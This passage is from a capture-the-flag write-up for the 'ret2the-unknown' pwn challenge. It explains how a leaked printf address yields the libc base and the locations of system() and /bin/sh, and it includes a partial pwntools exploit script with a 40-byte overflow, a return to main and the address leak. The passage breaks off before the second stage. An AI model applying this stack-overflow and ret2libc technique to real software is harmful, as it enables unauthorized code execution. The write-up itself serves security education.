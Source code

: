    fd.close()  
BrokenPipeError: [Errno 32] Broken pipe</span>

</td>

</tr>

</tbody>

</table>

<span class="c11"></span>

<span class="c11">The main function was successfully called again. Now the printf function address can be retrieved to find the base libc address for the second wave of the exploit.</span>

#### <span class="c2">Finding Base Libc Address</span>

<span>With the knowledge of where the printf function is in memory, the base address of libc can be calculated, and therefore the address of</span> <span class="c9">system()</span><span>and location of the</span> <span class="c9">/bin/sh</span><span class="c11"> string can be determined by adding their offsets to the base libc address:</span>

<a id="t.cb12678f754839e18ce39175f68b30343b86dbcb"></a><a id="t.9"></a>

<table class="c7">

<tbody>

<tr class="c22">

<td class="c0" colspan="1" rowspan="1">

<span class="c1 c14">from pwn import *  
</span>

<span class="c1">REMOTE = False  

if REMOTE:  
   p = remote(</span><span class="c1 c4">"mc.ax"</span><span class="c1">,31568)  
</span><span class="c1 c12">else:</span><span class="c1">  
   p = process(</span><span class="c1 c4">"./ret2the-unknown"</span><span class="c1">)  

rip_offset = 40  
main = 0x0000000000401186  

</span><span class="c1 c12"># Wave 1</span><span class="c1">  

</span><span class="c1 c12">## Repeat main function</span><span class="c1">  
payload = b'A'*40 + p64(main)  
p.recvuntil(b</span><span class="c1 c4">"safely?"</span><span class="c1">)  
p.sendline(payload)  

</span><span class="c1 c12">## Retrieve printf_address</span><span class="c1">  
</span><span class="c1">p.recvuntil(b</span><span class="c1 c4">"there: "</span><span class="c1">)</span><span class="c1">  
printf_address = p.recvuntil(b</span><span class="c1 c4">"luck!"</span><span class="c1">).split(b</span><span class="c1 c4">"\n"</span><span class="c1">)[0].decode()  

</span><span class="c1 c12"># Wave 2</span><span class="c1">  

